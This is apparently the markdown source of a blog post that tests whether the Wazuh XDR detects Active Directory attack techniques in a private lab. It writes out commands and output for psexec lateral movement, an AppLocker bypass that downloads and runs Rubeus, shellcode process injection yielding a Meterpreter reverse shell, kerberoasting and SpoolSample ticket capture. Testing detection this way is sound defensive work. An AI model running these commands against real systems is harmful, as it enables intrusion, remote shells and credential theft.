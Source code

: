```yaml
---
layout: post
title:  "Looking at Wazuh"
date:   2024-01-04 12:04:00 +1100
categories: Investigation
---
```


There's an open source XDR called Wazuh. [Wazuh - Open Source XDR. Open Source SIEM.](https://wazuh.com/). I wanted to see how some of the techniques taught in the OSEP course show up in an XDR and Wazuh is accessible so I put it in a lab.

### impacket-psexec

The first thing I ran was impacket-psexec.
```
┌──(kali㉿kali)-[~]
└─$ impacket-psexec domain/administrator:Password01@192.168.239.130
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Requesting shares on 192.168.239.130.....
[*] Found writable share ADMIN$
[*] Uploading file nvvENxrv.exe
[*] Opening SVCManager on 192.168.239.130.....
[*] Creating service XvHs on 192.168.239.130.....
[*] Starting service XvHs.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.914]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> hostname
DC01
```

This was detected, and this is what it looked like.
![image of detection of psexec](/images/psexecdetection.png)

### UninstallForExe

There's an applocker bypass where the Microsoft signed executable installutil can be used to execute arbitrary code against default applocker rules. The UninstallForExe exploit I used can load and run any .net executable in memory, I ran rubeus, running a kerberoast with it. For the applocker configuration, I had all categories enforced, each with the default rules active.

```
C:\Users\mpeanutbutter\Desktop>powershell -c iwr http://192.168.239.128/misc/uninstallforexe.exe -o C:\users\public\uninstallforexe.exe
C:\Users\mpeanutbutter\Desktop>C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U C:\users\public\uninstallforexe.exe
Microsoft (R) .NET Framework Installation utility Version 4.7.3190.0
Copyright (C) Microsoft Corporation.  All rights reserved.

Pulling executable from http://192.168.239.128/tools/rubeus.exe
Calling exe with the following arguments
 kerberoast /nowrap
   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.0


[*] Action: Kerberoasting
...
...
```

Wazuh didn't detect this, though all I had done with Wazuh was to install the server and agents.

### Process Injection

I ran a process injection that basically comes down to the following two lines of C# where the buf variable was msfvenom shell code.
```
WriteProcessMemory(hProcess, addr, buf, buf.Length, out outSize);
IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero); 
```

Downloaded and executed the process injection shell. It was injecting into explorer.exe.
```
C:\Users\mpeanutbutter\Desktop>powershell -c iwr http://192.168.239.128/misc/shell.exe -o shell.exe
C:\Users\mpeanutbutter\Desktop>shell.exe
```

```
msf6 exploit(multi/handler) > run
[*] Started HTTPS reverse handler on https://192.168.239.128:443
[*] Meterpreter session 1 opened (192.168.239.128:443 -> 192.168.239.133:49870) at 2024-01-03 19:35:18 -0500
meterpreter >
```

Wazuh also did not detect this. I haven't looked into Wazuh much, there might be some further configuration and rule/alert implementation that can make it better.


### Kerberoasting

I wanted to check if there was any detection of kerberoasting.
```
──(kali㉿kali)-[~]
└─$ impacket-GetUserSPNs domain.local/mpeanutbutter:Password01 -dc-ip 192.168.239.130
Impacket v0.11.0 - Copyright 2023 Fortra

ServicePrincipalName  Name       MemberOf  PasswordLastSet             LastLogon                   Delegation    
--------------------  ---------  --------  --------------------------  --------------------------  -------------
http/fake             bhorseman            2023-11-29 03:57:56.368346  2023-12-19 13:24:10.306345  unconstrained 

```

GetUserSPNs found an SPN that I'd messed around with in the lab.

For this one there was a partial detection. It noticed the auth that GetUserSPNs did but didn't notice anything about the kerberoasting.

![image of detection of kerberoast](/images/kerberoastdetection.png)

### Unconstrained Delegation

Next I tried an unconstrained delegation attack. I set the unconstrained delegation on the client02 machine.

```
PS C:\Users\administrator> iwr http://192.168.239.128/tools/spoolsample64.exe -o spoolsample.exe
PS C:\Users\administrator> .\spoolsample dc01 client02
[+] Converted DLL to shellcode
[+] Executing RDI
[+] Calling exported function
TargetServer: \\dc01, CaptureServer: \\client02
RpcRemoteFindFirstPrinterChangeNotificationEx failed.Error Code 1722 - The RPC server is unavailable.
```
Seems the lab is patched for the spoolsample authentication coercion so I didn't collect the tickets from the DC.

Wazuh didn't detect the attempt.

*Edit*
*Apparently there is no patch for spoolsample with Microsoft saying it works as designed. My issue was a firewall.*

```
PS C:\Users\administrator> .\spoolsample dc01 client02
[+] Converted DLL to shellcode
[+] Executing RDI
[+] Calling exported function
TargetServer: \\dc01, CaptureServer: \\client02
Attempted printer notification and received an invalid handle. The coerced authentication probably worked!
```

```
[*] 1/4/2024 9:12:36 AM UTC - Found new TGT:

  User                  :  DC01$@DOMAIN.LOCAL
  StartTime             :  1/4/2024 10:55:02 AM
  EndTime               :  1/4/2024 8:55:02 PM
  RenewTill             :  1/11/2024 10:55:02 AM
  Flags                 :  name_canonicalize, pre_authent, renewable, forwarded, forwardable
  Base64EncodedTicket   :
```
*Wazuh still didn't detect the successful auth coercion and ticket capture.*

So out of the box, Wazuh doesn't seem fantastic. The rabit hole probably goes deep on configuring and tuning it to be an effective XDR. 